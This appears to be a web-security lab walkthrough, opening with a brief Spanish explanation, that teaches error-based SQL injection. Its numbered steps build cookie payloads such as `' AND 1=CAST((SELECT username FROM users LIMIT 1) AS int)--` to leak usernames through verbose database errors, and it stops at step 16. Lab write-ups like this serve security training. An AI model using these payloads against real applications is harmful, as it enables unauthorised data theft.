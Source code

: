 `CAST((SELECT example_column FROM example_table) AS int)`

A menudo, los datos que intentas leer son una cadena. Intentar convertir esto a un tipo de datos incompatible, como `int`, puede provocar un error similar al siguiente:

`ERROR: invalid input syntax for type integer: "Example data"`

Este tipo de consulta también puede resultar útil si un límite de caracteres le impide activar respuestas condicionales.

----
1. Using Burp's built-in browser, explore the lab functionality.
2. Go to the **Proxy > HTTP history** tab and find a `GET /` request that contains a `TrackingId` cookie.
3. In Repeater, append a single quote to the value of your `TrackingId` cookie and send the request.
    
    `TrackingId=ogAZZfxtOKUELbuJ'`
4. In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that you have an unclosed string literal. Observe that your injection appears inside a single-quoted string.
5. In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:
    
    `TrackingId=ogAZZfxtOKUELbuJ'--`
6. Send the request. Confirm that you no longer receive an error. This suggests that the query is now syntactically valid.
7. Adapt the query to include a generic `SELECT` subquery and cast the returned value to an `int` data type:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
8. Send the request. Observe that you now get a different error saying that an `AND` condition must be a boolean expression.
9. Modify the condition accordingly. For example, you can simply add a comparison operator (`=`) as follows:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
10. Send the request. Confirm that you no longer receive an error. This suggests that this is a valid query again.
11. Adapt your generic `SELECT` statement so that it retrieves usernames from the database:
    
    `TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
12. Observe that you receive the initial error message again. Notice that your query now appears to be truncated due to a character limit. As a result, the comment characters you added to fix up the query aren't included.
13. Delete the original value of the `TrackingId` cookie to free up some additional characters. Resend the request.
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
14. Notice that you receive a new error message, which appears to be generated by the database. This suggests that the query was run properly, but you're still getting an error because it unexpectedly returned more than one row.
15. Modify the query to return only one row:
    
    `TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
16. Send the request. Observe that the error message now leaks the first username from the `users` table:
    